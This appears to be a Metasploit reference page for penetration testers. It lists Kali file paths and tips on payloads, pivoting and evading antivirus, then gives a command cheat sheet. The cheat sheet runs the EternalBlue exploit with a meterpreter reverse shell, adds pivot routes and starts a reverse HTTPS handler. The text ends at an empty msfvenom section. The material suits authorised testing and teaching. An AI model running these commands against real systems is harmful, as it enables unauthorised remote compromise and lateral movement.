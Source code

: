 Common filesystem locations (Kali defaults, may vary):
- Modules: /usr/share/metasploit-framework/modules/
- Logs: ~/.msf4/logs/
- Loot: ~/.msf4/loot/
- Config/global datastore: ~/.msf4/config

Note: Some distros may use ~/.msf5 or keep ~/.msf4 for compatibility.

## Practical tips
- Prefer staged payloads for size-sensitive exploits; use single payloads when reliability or AV evasion of the stager is an issue.
- Set ExitOnSession false when running handlers or parallel exploitation to avoid halting on first session.
- Use workspaces to separate targets/labs and keep data tidy.
- Import Nmap XML to quickly populate hosts/services; db_nmap may be deprecated in your version—favor external nmap + db_import.
- Save global LHOST/LPORT once with setg + save to speed up future runs.
- Use run check when available to validate a target before exploiting.
- Pivot with route/autoroute to reach internal subnets; then re-run scanners through MSF so routes are honored.
- Avoid encoders for “AV evasion”—they rarely bypass modern defenses; rely on transport (HTTPS), LOLBins, or custom builds where allowed.
- Keep Metasploit updated via your package manager; module names and options can change across versions.

## Minimal cheat sheet (one-screen flow)
```bash
# Start
sudo service postgresql start
msfdb init
msfconsole -q

# DB + workspace
db_status
workspace -a lab && workspace lab
db_import scan.xml
hosts; services

# Find & prep module
search type:exploit smb
use exploit/windows/smb/ms17_010_eternalblue
show options; show payloads
setg LHOST 10.10.14.5
set RHOSTS 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set ExitOnSession false
check
run -j

# Sessions & pivot
sessions -l
sessions -i 1
background
route add 10.10.20.0 255.255.255.0 1
route print

# Handler
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.5 LPORT 443
run -j

# msfvenom
```